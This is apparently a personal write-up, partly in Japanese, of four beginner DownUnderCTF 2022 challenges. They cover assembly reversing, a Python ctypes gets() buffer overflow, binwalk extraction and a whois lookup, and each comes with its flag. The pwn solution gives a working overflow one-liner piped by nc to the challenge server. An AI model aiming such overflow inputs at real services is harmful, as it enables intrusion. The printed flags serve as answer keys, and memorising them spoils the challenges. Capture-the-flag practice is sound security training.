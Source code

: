 # DownUnderCTF 2022

https://play.duc.tf/

- [DownUnderCTF 2022](#downunderctf-2022)
  - [rev:source provided](#revsource-provided)
    - [solution](#solution)
    - [flag](#flag)
  - [pwn:babyp(y)wn](#pwnbabypywn)
    - [solution](#solution-1)
    - [flag](#flag-1)
  - [DFIR: doxme](#dfir-doxme)
    - [solution](#solution-2)
    - [flag](#flag-2)
  - [DFIR: Shop-Knock Knock Knock](#dfir-shop-knock-knock-knock)
    - [solution](#solution-3)
    - [flag](#flag-3)

## rev:source provided

beginner, In this reversing challenge, source is provided.

Author: joseph#8210

### solution

配布されたchall.Sとバイナリから、pythonでフラグを復元しました。

![](./images/source.png)

```S
SECTION .data
c db 0xc4, 0xda, 0xc5, 0xdb, 0xce, 0x80, 0xf8, 0x3e, 0x82, 0xe8, 0xf7, 0x82, 0xef, 0xc0, 0xf3, 0x86, 0x89, 0xf0, 0xc7, 0xf9, 0xf7, 0x92, 0xca, 0x8c, 0xfb, 0xfc, 0xff, 0x89, 0xff, 0x93, 0xd1, 0xd7, 0x84, 0x80, 0x87, 0x9a, 0x9b, 0xd8, 0x97, 0x89, 0x94, 0xa6, 0x89, 0x9d, 0xdd, 0x94, 0x9a, 0xa7, 0xf3, 0xb2

SECTION .text

global main

main:
    xor rax, rax
    xor rdi, rdi
    mov rdx, 0x32
    sub rsp, 0x32
    mov rsp, rsi
    syscall

    mov r10, 0
l:
    movzx r11, byte [rsp + r10]
    movzx r12, byte [c + r10]
    add r11, r10
    add r11, 0x42
    xor r11, 0x42
    and r11, 0xff
    cmp r11, r12
    jne b

    add r10, 1
    cmp r10, 0x32
    jne l

    mov rax, 0x3c
    mov rdi, 0
    syscall

b:
    mov rax, 0x3c
    mov rdi, 1
    syscall
```

solver

```python
data = [0xc4, 0xda, 0xc5, 0xdb, 0xce, 0x80, 0xf8, 0x3e, 0x82, 0xe8, 0xf7, 0x82, 0xef, 0xc0, 0xf3, 0x86, 0x89, 0xf0, 0xc7, 0xf9, 0xf7, 0x92, 0xca, 0x8c, 0xfb, 0xfc, 0xff, 0x89, 0xff, 0x93, 0xd1, 0xd7, 0x84, 0x80, 0x87, 0x9a, 0x9b, 0xd8, 0x97, 0x89, 0x94, 0xa6, 0x89, 0x9d, 0xdd, 0x94, 0x9a, 0xa7, 0xf3, 0xb2]
flag = ""
count = 0
for d in data:
  for i in range(0x7f):
    a = (i + count) + 0x42
    b = a ^ 0x42
    c = b & 0xff
    if c == d:
      flag += chr(i)
      count += 1
      break
print(flag)
```

### flag

```
DUCTF{r3v_is_3asy_1f_y0u_can_r34d_ass3mbly_r1ght?}
```


## pwn:babyp(y)wn

beginner, Python is memory safe, right?

Author: joseph#8210

### solution

配布されたpython scriptから`buf2`の先頭を`DUCTF`にすれば良いと判断しました。

```python
#!/usr/bin/env python3

from ctypes import CDLL, c_buffer
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
buf1 = c_buffer(512)
buf2 = c_buffer(512)
libc.gets(buf1)
if b'DUCTF' in bytes(buf2):
    print(open('./flag.txt', 'r').read())
```

solver

```bash
python3 -c "print('A'*512 + 'DUCTF')" | nc 2022.ductf.dev 30021
DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}
```

### flag

```
DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}
```

## DFIR: doxme

beginner, Office is my safe word...

Author: donfran#1306

### solution

`binwalk -e ./doxme`により、`./media`にフラグがありました。

### flag

```
DUCTF{WOrd_D0Cs_Ar3_R34L1Y_W3ird}
```



## DFIR: Shop-Knock Knock Knock

easy, Looks like there's been a bruteforce/password spray attempt against the website!

What's the contact email for the ISP of the attacker's IP?

Flag format: Email address, case insensitive

Author: Cake#4096

### solution

`"url": "shop.downunderctf.com/login"`のログが怪しかったため、そのときのorigin(`58.164.62.91`)をwhoisしました。

### flag

```
abuse@telstra.net
```
